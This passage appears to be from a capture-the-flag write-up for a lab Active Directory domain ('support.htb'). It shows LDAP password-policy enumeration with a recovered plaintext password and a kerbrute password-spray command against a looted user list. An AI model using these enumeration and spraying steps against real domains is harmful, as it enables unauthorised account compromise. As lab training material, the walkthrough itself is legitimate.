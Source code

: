 # Password policy enumeration
```$ python enum_policy.py support.htb 'support\support' 'Ironside47pleasure40Watchful'```
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray

```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside47pleasure40Watchful'```

```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
